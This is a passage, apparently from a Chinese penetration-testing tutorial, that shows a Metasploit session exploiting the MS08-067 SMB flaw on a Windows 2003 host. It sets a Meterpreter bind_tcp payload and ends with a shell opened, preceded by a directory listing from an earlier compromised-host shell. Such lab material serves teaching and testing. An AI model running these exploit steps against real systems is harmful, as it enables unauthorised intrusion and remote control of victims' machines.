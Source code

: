 ```
2016-12-24  18:38          &lt;DIR&gt; Start Menu
2016-12-24  21:32          &lt;DIR&gt; Templates
      0 Files                  0 bytes
      7 Directories
bvshell:/C/Documents and Settings/All Users$
```

或者用ms08067:

```
msf &gt; use exploit/windows/smb/ms08_067_netapi 
msf exploit(ms08_067_netapi) &gt; show options 
Module options (exploit/windows/smb/ms08_067_netapi):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST                     yes       The target address
   RPORT    445              yes       The SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Exploit target:
   Id  Name
   --  ----   0   Automatic Targeting
msf exploit(ms08_067_netapi) &gt; set rhost 7.7.7.20rhost =&gt; 7.7.7.20msf exploit(ms08_067_netapi) &gt; set payload windows/meterpreter/bind_tcp
payload =&gt; windows/meterpreter/bind_tcp
msf exploit(ms08_067_netapi) &gt; show options 
Module options (exploit/windows/smb/ms08_067_netapi):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    7.7.7.20         yes       The target address
   RPORT    445              yes       The SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Payload options (windows/meterpreter/bind_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     7.7.7.20         no        The target address
Exploit target:
   Id  Name
   --  ----   0   Automatic Targeting
msf exploit(ms08_067_netapi) &gt; run
[*] Started bind handler
[*] 7.7.7.20:445 - Automatically detecting the target...
[*] 7.7.7.20:445 - Fingerprint: Windows 2003 - Service Pack 2 - lang:Unknown
[*] 7.7.7.20:445 - We could not detect the language pack, defaulting to English
[*] 7.7.7.20:445 - Selected Target: Windows 2003 SP2 English (NX)
[*] 7.7.7.20:445 - Attempting to trigger the vulnerability...
[*] Sending stage (957999 bytes) to 7.7.7.20[*] Meterpreter session 2 opened (172.16.0.20-172.16.0.11:0 -&gt; 7.7.7.20:4444) 
meterpreter &gt;
```
